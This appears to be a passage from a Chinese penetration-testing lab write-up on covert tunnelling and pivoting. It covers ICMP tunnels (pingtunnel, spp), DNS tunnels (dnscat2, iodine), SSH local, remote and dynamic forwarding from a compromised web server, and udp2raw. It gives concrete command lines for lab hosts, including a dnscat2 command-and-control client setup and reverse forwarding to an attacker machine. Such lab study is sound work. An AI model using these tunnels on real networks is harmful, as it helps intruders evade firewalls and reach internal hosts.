• -conntt：server 发起连接到目标地址的超时时间，默认 1000ms
客户端参数
• -l：本地的地址，发到这个端口的流量将转发到服务器
• -s：服务器的地址，流量将通过隧道转发到这个服务器
• -t：远端服务器转发的目的地址，流量将转发到这个地址
• -timeout：地记录连接超时的时间，单位是秒，默认 60s
• -key：设置的密码，默认 0
• -tcp：设置是否转发 tcp，默认 0
• -tcp_bs：tcp 的发送接收缓冲区大小，默认 1MB
• -tcp_mw：tcp 的最大窗口，默认 20000
• -tcp_rst：tcp 的超时发送时间，默认 400ms
• -tcp_gz：当数据包超过这个大小，tcp 将压缩数据，0 表示不压缩，默认0
• -tcp_stat：打印 tcp 的监控，默认 0
• -nolog：不写日志文件，只打印标准输出，默认 0
• -noprint：不打印屏幕输出，默认 0
• -loglevel：日志文件等级，默认 info
• -sock5：开启 sock5 转发，默认 0
• -profile：在指定端口开启性能检测，默认 0 不开启
• -s5filter：sock5 模式设置转发过滤，默认全转发，设置 CN 代表 CN 地区的直连不转发
• -s5ftfile：sock5 模式转发过滤的数据文件，默认读取当前目录的GeoLite2-Country.mmdb
1 |
|
#关闭 icmp 回复,如果要开启 icmp 回复，该值设置为 0
sysctl -w net.ipv4.icmp_echo_ignore_all=1
#监听
./pingtunnel -type server -noprint 1 -nolog 1
1 |
|
pingtunnel.exe -type client -l :1080 -s 39.99.251.19 -sock5 1 -noprint 1 -nolog 1
1 |
|
服务端操作
#关闭 icmp 回复,如果要开启 icmp 回复，该值设置为 0
sysctl -w net.ipv4.icmp_echo_ignore_all=1
#监听
./pingtunnel -type server -noprint 1 -nolog 1
1 |
#将目标主机 192.168.88.140 的 8081 端口转发到本地的 8080 端口
pingtunnel.exe -type client -l :8080 -s 192.168.88.140 -t 192.168.88.140:8081 -tcp 1 -noprint 1 -nolog 1
1 |
|
./spp -type server -proto ricmp -listen 0.0.0.0
1 |
|
spp.exe -name “test” -type proxy_client -server 192.168.88.185 -fromaddr :8082 -toaddr :8081 -proxyproto tcp -proto ricmp
1 |
|
tcpdump -n -i eth0 udp dst port 53
1 |
|
systemctl stop systemd-resolved
1 |
|
checkin
mode dns-txt
1 |
|
https://downloads.skullsecurity.org/dnscat2/
下载这里面的dnscat2-v0.07-client-source.zip
并在Ubuntu下解压，cd解压目录，终端输入make，推荐这种，在Ubuntu和centos都可以运行
其实在kali下直接拉下来的https://github.com/iagox86/dnscat2.git也包含了客户端也可以直接make
但是make之后在哪里运行都报一个遇到 GLIBC 版本不匹配的问题
./dnscat: /lib/x86_64-linux-gnu/libc.so.6: version GLIBC_2.33’ not found (required by ./dnscat)
./dnscat: /lib/x86_64-linux-gnu/libc.so.6: version GLIBC_2.34’ not found (required by ./dnscat)
1 |
服务端：
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
sudo apt install ruby-full //安装ruby
gem install bundler // 用于安装 Bundler 以管理 Ruby 项目的依赖。
apt-get install ruby-dev // 用于安装 Ruby 开发工具包，以便编译和安装带有本地扩展的 gem。
bundle install –path ~/.gem //gems 安装到用户的主目录中，避免权限问题
ruby dnscat2.rb //运行
1 |
|
1 | 客户端：dnscat2-client.exe --dns server=192.168.1.133,port=553 --secret=password (win) |
建立会话界面

1 | 服务端控制台输入：windows，可看客户端id，最开始为1 |

直连的流量特征也是很明显的，在请求日志中，所有的域名都是以 dnscat 开头的，因此防火墙可以很容易地将直连模式的通信检测出来。

中继模式
1 | -e 指定安全级别，open 表示服务端允许客户端不进⾏加密 |
dnscat2 -powershell
支持powershell大于2的版本， dnscat2 客户端ps脚本
仓库地址： https://github.com/lukebaggett/dnscat2-powershell?tab=readme-ov-file
具体使用：https://www.blackhillsinfosec.com/powershell-dns-command-control-with-dnscat2-powershell/
1 | 原文章服务端：sudo ruby dnscat2.rb --dns “domain=test,host=192.168.56.1” --no-cache |
Iodine DNS隧道搭建
Iodine 是一个用于在 DNS（域名系统）上创建隧道的工具，通常用于绕过网络限制或进行隐蔽通信。它的工作原理基于将数据嵌入到 DNS 查询和响应中，通过这种方式将数据传输穿越到网络防火墙或过滤器
Iodine 项目地址：Releases · yarrick/iodine (github.com)
https://code.kryo.se/iodine/ 这里window版本下的编译版本都有，以及各操作系统下的软件源等等，建议看这里
window端下载之后，还要下载tap网卡ATP网卡驱动还要以管理员身份运行，运行杀软还会报毒，相当鸡肋

kali上自带Iodine，debian系列，centos都有软件源提供，相关下载命令
1 | apt-get install Iodine |
1 | yum -y install iodine |
服务端：iodined -f -c -P 123456 192.168.200.1 ns1.域名 -DD
1 | -f：在前台运行 |
客户端上连会显示

客户端：iodine.exe -f -P 123456 ns1.域名

这里会发现这里添加了一个192.168.200.2的ip
这个网址是检查iodine域名是否生效
网址：https://code.kryo.se/iodine/check-it/ 输入域名即可验证是否生效

服务端会多出一个dns0的虚拟网卡，192.168.200.1

相互ping通隧道就能建立

SSH隧道
在内网中，几乎所有的Linux/UNIX服务器和网络设备都支持SSH协议。在一般情况下，SSH协议是被允许通过防火墙和边界设备的，所以经常被攻击者利用。同时，SSH协议的传输过程是加密的，所以我们很难区分合法的SSH会话和攻击者利用其他网络建立的隧道。攻击者使用SSH端口隧道突破防火墙的限制后，能够建立一些之前无法建立的TCP连接。
利用起来有一定的条件，使用ssh隧道相关的技术需要root权限，windows上大多数型号没有SSH所以无法使用Windows主机作为跳板机来实现建立隧道。这几年比较新的版本内置SSH。比如：Windows Server 2022、Windows Server 2019、Windows 11、Windows 10
什么是跳板机？
跳板机（Jump Server 或 Bastion Host）通常部署在内外网的边界区域，即受控的中间区域（如 DMZ 区域），它充当外部用户和内网资源之间的安全桥梁。
跳板机的功能和位置
功能：
- 跳板机主要用于对外部用户的访问进行控制和审计。它通过限制直接访问内网的敏感资源，提供一个集中管理、控制和审计访问行为的通道。
部署位置：
- DMZ 区域：跳板机通常位于 DMZ（Demilitarized Zone，非军事区）中，这个区域受到严格的防火墙规则保护，介于外部网络和内部网络之间。
- 内网与外网之间：跳板机可能部署在内网和外网之间的边界，允许外部用户通过跳板机访问内网资源，而不会直接暴露内网。
访问方式：
- 跳板机通常通过 SSH 协议访问，尤其在 Linux/Unix 系统中。外部用户通过 SSH 登录到跳板机，然后从跳板机再进一步访问内网中的服务器或其他资源。
- 对于 Windows 系统，可能使用 RDP（远程桌面协议）或专门的跳板机工具进行访问。
典型访问流程
用户连接跳板机：
- 用户通过 SSH（或 RDP）连接到跳板机，通常需要通过身份验证（如用户名/密码、SSH 密钥、二步验证等）。
通过跳板机访问内网资源：
- 成功登录到跳板机后，用户可以从跳板机发起连接到内网中的其他服务器（如数据库、应用服务器等）。
审计与监控：
- 跳板机通常会记录所有访问日志、命令执行记录，并进行实时监控，以确保安全和合规性。
跳板机的安全性考虑
- 身份验证：跳板机应当配置强大的身份验证机制，防止未经授权的访问。
- 日志记录：跳板机必须启用详细的日志记录，以便在出现问题时能够追溯用户的操作。
- 最小权限：在跳板机上为用户分配最小权限，确保用户只能访问其工作所需的资源。
通过跳板机，可以显著提高对内网资源访问的安全控制。如果你在具体配置或部署方面有更多问题或需求，可以告诉我，我会进一步提供帮助。
开源项目：https://github.com/jumpserver/jumpserver 了解一下也好
SSH隧道常用参数
1 | -C：压缩传输，提高传输速度 |
SSH本地转发
目前有这样的一个环境，外网有一台攻击主机 ，可访问处于内网环境的 Web 服务器（双网卡），但无法访问 Web 服务器所在内网的办公主机，接下来就用 SSH 进行流量转发，使外网的攻击主机通过 Web 服务器访问到位于内网的办公主机。
1 | 攻击机kali：192.168.88.185 内网win机：10.10。10.135 web机Ubuntu双网卡：192.168.88.154 10.10.10.137 |
当你在本地访问 localhost:4000 时，流量会通过 SSH 隧道发送到 192.168.88.154。
然后，192.168.88.154 会将流量转发到它能访问的内部网络中的 10.10.10.135:3389。
最终，你在本地通过 localhost:4000 可以像直接连接到 10.10.10.135:3389 一样访问该主机上的 RDP 服务。
在kali上输入:rdesktop 127.0.0.1:4000
SSH远程转发
远程转发是本地转发的反向操作。它允许你将 SSH 服务器上的某个端口的数据转发到你本地机器上的指定端口。
远程转发在这里其实也可以说是反向代理，目前有这样的一个环境：内网中不存在边界设备，但是内网的 Web 服务器能访问到攻击主机，而内网的办公主机则不行。
因此可以在拿到 Web 服务器的 Shell 后，采用远程转发的方式，即利用 Web 服务器 SSH 连接到攻击主机上进行代理转发，然后访问攻击主机的端口即可。
1 | 在web机子里面输入这个，其实就是跟本地转发相反 |
假设你在远程服务器 192.168.88.185 上，并且你需要访问一个内部网络中的 Windows 远程桌面服务，该服务位于 10.10.10.135 的 3389 端口。由于你无法直接从 192.168.88.185 访问这个服务，可以通过 SSH 远程端口转发来实现。通过这条命令，任何连接到 192.168.88.185:3388 的请求，都会被转发到 10.10.10.135:3389。


SSH动态转发
动态转发可以将 SSH 客户端变成一个 SOCKS 代理服务器，允许你通过 SSH 隧道动态地将网络流量重定向到多个不同的目标。
动态转发需要攻击主机能够访问到目标主机
1 | 格式：ssh -CfNg -D 攻击主机端口 Web服务器ssh用户名@Web服务器IP |
动态转发其实就是建立一个 socks 连接，任何支持 socks 4/5 协议的程序都可以使用这个加密通道进行访问，例如这里以 proxychains 为例，借助 proxychains 从攻击主机访问到内网的办公主机的 3389 端口。

在proxychains里面设置代理
1 | socks5 127.0.0.1 4444 |

很明显动态转发的灵活度更高。避免了本地转发远程转发要写死服务端口
参考：https://blog.csdn.net/daocaokafei/article/details/117718130
扩展：https://cloud.tencent.com/developer/article/1125596
rdesktop 是一个第三方 RDP 客户端，在连接 Windows 系统时，可能会触发与默认 Windows RDP 客户端不同的行为，导致远程计算机屏幕熄灭。这可能是因为 rdesktop 的实现方式或者 Windows 系统的设置在检测到非原生客户端连接时，默认处理方式会不同。
流量查看

UDP隧道
udp2raw的介绍
该⼯具可以利⽤原始套接字并通过伪造的TCP/UDP/ICMP流量来帮助研究⼈员绕过UDP防⽕墙（或不稳定的UDP环
境）。其⽀持⼼跳保活、⾃动重连，重连后会恢复上次连接，在底层掉线的情况下可以保持上层不掉线。同时有加密、防
重放攻击、信道复⽤的功能。
地址：https://github.com/wangyu-/udp2raw
参考：Udp2raw-Tunnel：一款功能强大的UDP隧道工具 - FreeBuf网络安全行业门户
服务端
1 | ./udp2raw_amd64 -s -l0.0.0.0:4096 -r127.0.0.1:7777 -k "passwd" --raw-mode faketcp --cipher-mode xor -a |

客户端
1 | ./udp2raw_amd64 -c -l0.0.0.0:3333 -r192.168.88.185:4096 -k "passwd" --raw-mode faketcp --cipher-mode xor -a |

udp2raw 建立隧道后，其流量的处理方式与普通的网络流量有所不同，因为它伪装了UDP流量，使其看起来像合法的TCP流量，从而绕过防火墙或网络限制。该工具默认要求要root权限。了解即可